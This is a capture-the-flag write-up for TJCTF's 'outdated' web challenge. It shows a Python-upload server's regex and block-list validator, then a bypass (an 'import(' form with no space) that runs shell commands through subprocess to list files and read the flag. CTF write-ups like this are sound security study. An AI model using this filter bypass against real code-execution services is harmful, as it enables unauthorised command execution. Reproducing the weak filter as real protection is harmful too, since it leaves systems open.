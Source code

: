 # outdated
Category: Web

## Description
I found this old website that runs your python code, but the security hasn't been updated in years

I'm sure there's a flag floating around, can you find it?

[Instancer](https://instancer.tjctf.org/challenge/outdated)

Attachments: [server.zip](attachments/server.zip)

## Write-up
When navigating to the provided URL, we are greeted with a webpage displaying the interface shown in the screenshot:

![](solution/image1.png)

It appears that this page allows us to upload Python scripts for execution.

![](solution/image2.png)

Upon examining the codebase, specifically the `submit()` function responsible for handling Python submissions, we notice that our uploaded files undergo validation (`test_code()`) before they can be executed. Here is a snippet showcasing the validation process:

```
if 'file' not in request.files:
    return redirect('/')
f = request.files['file']
fname = f"uploads/{uuid.uuid4()}.py"
f.save(fname)
code_to_test = re.sub(r'\\\s*\n\s*', '', open(fname).read().strip())
tested = test_code(code_to_test)
if tested[0]:
    res = ''
    try:
        ps = subprocess.run(['python', fname], timeout=5, capture_output=True, text=True)
        res = ps.stdout
    except:
        res = 'code timout'
...
```

The provided code also includes various validation methods:

```
def test_for_non_ascii(code):
    return any(not (0 < ord(c) < 127) for c in code)

def test_for_imports(code):
    cleaned = clean_comments_and_strings(code)
    return 'import ' in cleaned

def test_for_invalid(code):
    if len(code) > 1000:
        return True
    try:
        parse(code)
    except:
        return True
    return False

blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec",
        "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys",
        "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]

blocked_regex = re.compile(fr'({"|".join(blocked)})(?![a-zA-Z0-9_])')

def test_for_disallowed(code):
    code = clean_comments_and_strings(code)
    return blocked_regex.search(code) is not None

def test_code(code):
    if test_for_non_ascii(code):
        return (False, 'found a non-ascii character')
    elif test_for_invalid(code):
        return (False, 'code too long or not parseable')
    elif test_for_imports(code):
        return (False, 'found an import')
    elif test_for_disallowed(code):
        return (False, 'found an invalid keyword')
    return (True, '')

def clean_comments_and_strings(code):
    code = re.sub(r'[rfb]*("""|\'\'\').*?\1', '', code,
                  flags=re.S)
    lines, res = code.split('\n'), ''
    for line in lines:
        line = re.sub(r'[rfb]*("|\')(.*?(?!\\).)?\1',
                      '', line)
        if '#' in line:
            line = line.split('#')[0]
        if not re.fullmatch(r'\s*', line):
          res += line + '\n'
    return res.strip()
```

Our goal is to upload a Python script that can execute `subprocess.check_output`, essentially providing us with Remote Code Execution (RCE) capabilities. We need to import `subprocess` to use `check_output`. The traditional way of importing `from subprocess import check_output` will be detected by the validator. To achieve execution, we need to cleverly bypass the `test_for_imports()` function. This function sanitizes the file content and checks for the presence of `import ` (note the space). Luckily, this can be simply bypassed with `from subprocess import(check_output,)`. Subsequently, we can execute `print(check_output(<command here>, shell=True).decode())` in our script which does not violate the rules of any validators.

To successfully accomplish our objective of leaking the flag content, we need to prepare two scripts. The first script, named [leak-flag-name.py](solution/leak-flag-name.py), is designed to extract the filename of the flag:

```
from subprocess import(check_output,)
print(check_output("ls", shell=True).decode())
```

Uploading this script yields the following output:

![](solution/image3.png)

Next, we can proceed to upload the second script, , named [leak-flag.py](solution/leak-flag.py), which allows us to view the contents of the flag file:

```
from subprocess import(check_output,)
print(check_output("cat flag-62903cc6-5f4c-4602-bbde-8f155adc6625.txt", shell=True).decode())
```

Executing this script displays the flag we sought:

![](solution/image4.png)

Flag: `tjctf{oops_bad_filter_3b582f74}`
